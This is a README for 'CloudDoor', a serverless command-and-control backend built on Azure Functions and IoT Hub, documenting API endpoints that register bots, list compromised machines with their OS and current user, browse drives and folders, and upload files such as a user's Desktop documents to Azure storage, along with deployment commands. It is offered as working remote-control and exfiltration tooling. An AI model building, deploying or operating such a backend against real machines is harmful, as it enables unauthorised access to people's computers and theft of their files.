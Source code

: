 # About

CloudDoor is a minimalistic serverless CnC application based on Azure Functions and Azure IoT Hub.
The application allows to register new IoT devices, perform basic queries on them and issue remote operations.

The following reporitory contains only the backend configuration and code.
[The code of an example bot can be found here.](https://github.com/kamiljano/CloudDoorClient)

# TODO

* Store the device creation date (might require parsing the IoT Hub event)
* make sure that the functions are deployed along with the template
* Figure out the authentication for everything except for the registration function
* Add automatic client version updates
* Make sure that the admin api of the IoT Hub can only be accessed from the cloud. Might need to put it into some vNet or something

# Endpoints

## Register

    PUT /api/bots

    No Body

    Example output:

    {
        "connectionString": "HostName=**********;SharedAccessKey=**************",
        "deviceId": "****************"
    }

## Search for devices

    GET /api/bots

    Example output:

    [
        {
            "id": "c12535a0-a673-4510-8bbc-c1b3bb80281f",
            "os": {
                "version": "Microsoft Windows NT 6.2.9200.0",
                "type": "Win32NT"
            },
            "currentUser": "DF\\janoka"
        }
    ]

## Issue a command

    POST /api/bots/:botId/command

### List Drives

    Request Body:

    {
        "type": "driveList"
    }

    Example Response:

    {
        "drives": [
            {
                "name": "C:\\"
            }
        ]
    }

### List Directories

    Request Body:

    {
        "type": "dirList",
        "payload": {
            "path": "C:"
        }
    }

    Example Response:

    {
        "files": [
            {
                "name": "data",
                "type": "DIR"
            },
            {
                "name": "postgresql_84.exe",
                "type": "FILE"
            }
        ]
    }

### Upload file

    Request Body:

    {
        "type": "fileUpload",
        "payload": {
            "paths": [
                "C:\\Users\\janoka\\Desktop\\exam.docx"	
            ]
        }
    }

    Example Response:

    {
        "uploads": [
            {
                "status": "UPLOADED",
                "path": "C:\\Users\\janoka\\Desktop\\speach.docx",
                "storage": {
                    "path": "uploads/2a33cc05-8186-45e2-ae47-1325cf89d66d/C:/Users/janoka/Desktop/speach.docx"
                }
            }
        ]
    }

Where `uploads.storage.path` represents the exact place in the Azure Storage account where the file is available.

# Install Dependencies

All dependencies can be installed with the simple command

```
npm install -g azure-functions-core-tools
npm install
```

# Deploy

## Production environemnt

1. Create a resource group - `az group create --name CloudDoorProdResourceGroup --location northeurope`
2. Deploy the resources - `az group deployment create --resource-group CloudDoorProdResourceGroup --template-file "./azuredeploy.json"`

## Development environment

1. Create a resource group - `az group create --name CloudDoorDevResourceGroup --location northeurope`
2. Deploy the resources - `az group deployment create --resource-group CloudDoorDevResourceGroup --template-file "./azuredeploy.json" --parameters @azuredeploy-devparameters.json`

## Common

3. Authentiation cannot be defined in the ARM template. This is why it has to be set up automatically based on [this video](https://www.youtube.com/watch?v=aMk4sieku_Y)

# Debug locally

Once all resources are deployed, you can fetch the remote settings with `func azure functionapp fetch-app-settings CloudDoorDev`.
This will pre-configure the `local.settings.json` with all the necessary data to hook your local instance to the remotely hosted IoT Hub and
all other resources that are necessary for a smooth local run.

Once you have your `local.settings.json` in place, run the local server with `func start`